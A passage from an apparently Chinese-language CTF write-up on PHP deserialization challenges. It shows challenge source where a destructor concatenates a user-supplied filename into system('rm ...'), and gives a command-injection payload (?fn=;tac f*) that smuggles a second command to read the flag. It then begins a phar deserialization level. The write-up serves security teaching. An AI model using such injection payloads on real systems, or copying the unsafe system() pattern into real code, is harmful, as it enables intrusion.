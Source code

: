 ```php
        if($this->evilfile){
            system('rm '.$this->filename);
        }
    }
}

if(isset($_GET['fn'])){
    $content = file_get_contents('php://input');
    $f = new filter($_GET['fn'],$content);
    if($f->checkevil()===false){
        file_put_contents($_GET['fn'], $content);
        copy($_GET['fn'],md5(mt_rand()).'.txt');
        unlink($_SERVER['DOCUMENT_ROOT'].'/'.$_GET['fn']);
        echo 'work done';
    }
    
}else{
    echo 'where is flag?';
}

```

代码很长，利用点在析构函数，符合if判断`if($this->evilfile)`即可rce:`system('rm '.$this->filename);`

这题核心考点实际就是rce绕过；让evilfile为true，拼接一下绕过`rm`就行

```
GET: ?fn=;tac f*
POST: flag
```



## 276 phar反序列化

受影响函数：（by[Phar与Stream Wrapper造成PHP RCE的深入挖掘 - zsx's Blog (zsxsoft.com)](https://blog.zsxsoft.com/post/38)）
![](https://i.loli.net/2021/10/21/x1A6cTqOIa2SNHh.png)



```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-08 19:13:36
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-08 20:08:07
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

highlight_file(__FILE__);

class filter{
    public $filename;
    public $filecontent;
    public $evilfile=false;
    public $admin = false;

    public function __construct($f,$fn){
        $this->filename=$f;
        $this->filecontent=$fn;
    }
```